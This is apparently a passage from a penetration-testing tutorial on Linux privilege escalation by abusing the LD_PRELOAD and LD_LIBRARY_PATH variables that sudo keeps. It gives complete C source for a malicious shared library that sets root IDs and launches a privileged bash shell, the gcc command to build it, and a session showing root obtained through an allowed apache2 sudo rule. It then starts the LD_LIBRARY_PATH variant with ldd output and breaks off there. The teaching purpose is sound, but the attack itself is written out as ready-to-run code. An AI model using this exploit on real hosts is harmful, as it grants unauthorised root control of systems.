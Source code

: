 Which variables are useful depends on the program, and you can use [Broken link](broken-reference "mention") or canaries to find out which are used in what places. Here are a few common ones that have a special meaning and can often be exploited:

### `$LD_PRELOAD` & `$LD_LIBRARY_PATH`

Two especially dangerous ones are `LD_PRELOAD` and `LD_LIBRARY_PATH`, because they allow you to overwrite the libc path of the program to another file that you can control. This means you can execute any C library you make before the real sudo program runs.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ sudo -l
</strong>Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/apache2
</code></pre>

The first `LD_PRELOAD` just specifies the direct path to the library. To compile a malicious library yourself just make some C code to execute a privileged shell, and compile it like a library:

{% code title="preload.c" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);  // Root permissions
        system("/bin/bash -p");  // Start bash shell
}
```
{% endcode %}

```shell-session
$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

Now you have the malicious preload.so file that you can include by setting the `LD_PRELOAD` before running the allowed sudo program (make sure to use the full path):

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ sudo LD_PRELOAD=/tmp/preload.so /usr/sbin/apache2
</strong># id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>

Then for the `LD_LIBRARY_PATH` option there is another similar way. This variable only sets the directory to find the other libraries in, so we first need to know what libraries are loaded to then overwrite them. Do this using `ldd`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ldd /usr/sbin/apache2
</strong>        linux-vdso.so.1 =>  (0x00007fff8f5ff000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f52d4527000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f52d4303000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f52d40c9000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f52d3ead000)
        libc.so.6 => /lib/libc.so.6 (0x00007f52d3b41000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f52d393c000)
        librt.so.1 => /lib/librt.so.1 (0x00007f52d3734000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f52d34fd000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f52d32f8000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f52d30d0000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f52d49e4000)
</code></pre>
